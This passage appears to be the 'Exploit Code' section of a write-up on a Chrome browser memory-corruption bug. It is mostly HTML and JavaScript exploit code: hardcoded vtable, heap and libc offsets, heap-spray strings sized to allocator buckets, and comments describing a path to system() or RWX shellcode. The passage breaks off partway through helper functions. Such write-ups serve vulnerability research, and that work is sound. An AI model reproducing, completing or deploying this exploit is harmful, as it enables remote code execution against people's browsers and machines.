 
## 7 - Exploit Code

```html
<!-- ./chrome --no-sandbox --headless --user-data-dir=/tmp/not-exist \
  --disable-gpu --remote-debugging-port=9222 --enable-logging=stderr \
  http://localhost:8000/exploit.html
  -->
<html>

<head>
  <script>
    const kHRTFPannerVtableOffset = 0x10e5570n;
    const kHRTFPannerHeapOffset = 0x22620n;
    // blink::FileSystemDispatcher::WriteListener::DidWrite
    const kWriteListenerOffset = -0xd401d0n;

    // this can be used to more complex exploitation giving RWX perm and
    // writing a shellcode, this is a minimal POC which only pop xcalc
    // blink::FileSystemDispatcher::WriteListener::DidWrite
    // const kPolymorphicInvokeOffset = 0xe1cde26n;
    // const kRetOffset = kWriteListenerOffset + 104n; // ret instruction
    // v8::base::AddressSpaceReservation::SetPermissions
    // const kOSSetPermissionsOffset = -0x5a09080n;
    // const kShellcode = [
    //   0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc
    // ];
    const kSystemLibcOffset = -0x31af290n;

    // this string size +0x34, fits into 0x400 bucket
    const kCSSStringCross0x2000 = 'C'.repeat(0x1fcc);
    // HRTFPanner sized 0x448, fits into 0x500(?) bucket
    const kCSSStringHRTF = 'B'.repeat(0x414); // 0x414 + 0x34 == 0x448
    const kCSSString = 'A'.repeat(0x7fcc);
    const kSprayPannerCount = 10;
    const kTargetCSSVar = '--c13.2';

    const audioCtx = new OfflineAudioContext(1, 4096, 4096);
    var panners = [];
    var audioCtxArr = [];
    var delayNodeArr = [];
    var srcNodeArr = [];
    var heapAddr = -1n;
    var fakePannerAddr = -1n;
    var chromeBase = -1n;

    function die(msg) {
      console.log(msg);
      throw msg;
    }

    function str2ab(str) {
      let buf = new ArrayBuffer(str.length);
      let view = new Uint8Array(buf);
      for (let i = 0; i < str.length; i++) {
        view[i] = str.charCodeAt(i);
      }
      return buf;
    }

    function u64(str, is_little_endian = true) {
      if (str.length != 8)
        die('string length is not 8');
      let ab = str2ab(str);
```